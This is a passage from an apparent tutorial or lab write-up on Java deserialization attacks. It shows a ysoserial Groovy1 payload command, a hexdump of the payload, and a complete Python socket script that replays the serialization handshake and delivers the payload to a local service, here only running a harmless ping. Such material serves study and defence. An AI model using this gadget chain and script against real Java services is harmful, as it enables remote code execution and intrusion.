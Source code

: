 For every object/value transported in Java serialized data, there is a preceding byte of certain value that identifies its type. The tool dumps every object that is contained in the stream.

Next step is to understand how to replace single objects to execute code. We can build a simple script that will mimic the inital handshake (0xaced0005) and then replace the serialized data.

Based on the output of the Serialization Dumper, part of the communication must be mimicked with python; this includes handshake, two ```TC_BLOCKDATA``` structures and the username.
The hashed string will be replaced with serialized data originating from the ysoserial tool:

```bash
java -jar ysoserial-master-SNAPSHOT.jar Groovy1 "ping 127.0.0.1" > p.bin
```

```bash
sudo java -jar ysoserial-master-SNAPSHOT.jar Groovy1 "ping 127.0.0.1" > p.bin       1 ⨯
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.codehaus.groovy.reflection.CachedClass$3$1 (file:/opt/ysoserial-master-SNAPSHOT.jar) to method java.lang.Object.finalize()
WARNING: Please consider reporting this to the maintainers of org.codehaus.groovy.reflection.CachedClass$3$1
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```

```bash
head p.bin | hexdump -C
00000000  ac ed 00 05 73 72 00 32  73 75 6e 2e 72 65 66 6c  |....sr.2sun.refl|
00000010  65 63 74 2e 61 6e 6e 6f  74 61 74 69 6f 6e 2e 41  |ect.annotation.A|
.....
.....
```

Here is the full exploit code:

```python
#serialization.py
import socket

ip = "127.0.0.1"
port = 6666
payload = "p.bin"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

data = '\xac\xed\x00\x05' #Serialization handshake
s.sendall(data)

data = '\x77\x04'
data2 = '\xf0\x00\xba\xaa' #TC_BLOCKDATA
s.sendall(data)
s.sendall(data2)

data = '\x77\x02' #Protocol version
data2 = '\x01\x01'
s.sendall(data)
s.sendall(data2)

data = '\x77\x06' #depends on username 06 is string length +2
data2 = '\x00\x04\x74\x65\x73\x74' #00 04 is string length, then 4 bytes T E S T

s.sendall(data)
s.sendall(data2)
f = open(payload, "rb") #ysoserial payload without first 4 bytes
c = f.read()
s.send(c[4:])
```